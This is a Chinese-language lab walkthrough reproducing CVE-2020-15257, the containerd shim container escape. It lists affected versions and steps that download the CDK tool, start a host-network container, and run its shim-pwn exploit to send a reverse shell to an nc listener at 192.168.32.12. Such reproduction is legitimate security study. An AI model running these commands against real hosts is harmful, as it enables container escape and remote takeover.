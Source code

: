 # **CVE-2020-15257 容器逃逸**

参考：https://blog.51cto.com/u_15274949/2922084
https://www.bilibili.com/read/cv9461827

## 1.漏洞简介

containerd是行业标准的容器运行时，可作为Linux和Windows的守护程序使用。在版本1.3.9和1.4.3之前的容器中，容器填充的API不正确地暴露给主机网络容器。填充程序的API套接字的访问控制验证了连接过程的有效UID为0，但没有以其他方式限制对抽象Unix域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效UID为0，但特权降低）导致新进程以提升的特权运行。

**影响版本**：containerd < 1.4.3	containerd < 1.3.9

**安全版本**：containerd >= 1.4.3	containerd >= 1.3.9

## 2.实验步骤

### 2.1 实验环境搭建

docker安装后containerd默认已安装，所以这里直接安装docker，查看dockerd版本

```bash
docker version
```

![image-20211201092026219](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201092026219.png)

### 2.2 下载poc

漏洞利用使用github上的poc进行复现

```bash
mkdir cve-2020-15257

cd cve-2020-15257

wget https://github.com/cdk-team/CDK/releases/download/0.1.6/cdk_v0.1.6_release.tar.gz

tar -zxvf cdk_v0.1.6_release.tar.gz
```

![image-20211201092525907](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201092525907.png)

### 2.3 查看内核版本

下载完成后查看虚拟机内核版本，将poc中对应的版本传到虚拟机中

```bash
uname -a
```

![image-20211201095741267](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201095741267.png)

### 2.4 启动容器并拷贝poc

通过--net=host作为启动参数运行一个容器

```bash
docker run -it --net=host ubuntu:18.04 /bin/bash
```

![image-20211201100021261](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100021261.png)

把poc拷贝到容器里

```bash
docker ps |grep ubuntu
```

![image-20211201100205412](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100205412.png)

![image-20211201100224979](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100224979.png)

### 2.5 执行反弹shell

在另一台机器上（192.168.32.12）使用nc监听

```bash
nc -lvp 6767
```

![image-20211201100400715](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100400715.png)

在容器里执行poc反弹shell，完成逃逸

```bash
./cdk_linux_386 run shim-pwn 192.168.32.12 6767
```

![image-20211201100540961](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100540961.png)

![image-20211201100623706](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100623706.png)











